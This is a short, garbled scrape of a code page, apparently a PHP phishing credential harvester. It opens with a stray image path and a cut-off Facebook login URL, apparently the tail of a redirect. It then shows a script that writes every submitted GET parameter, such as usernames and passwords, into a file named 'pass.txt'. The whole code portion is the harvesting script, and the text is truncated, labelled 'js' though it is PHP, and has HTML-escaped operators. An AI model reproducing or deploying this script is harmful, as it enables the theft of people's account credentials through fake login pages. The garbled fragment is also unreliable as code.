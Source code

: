 # js

http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&gt; $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&gt;
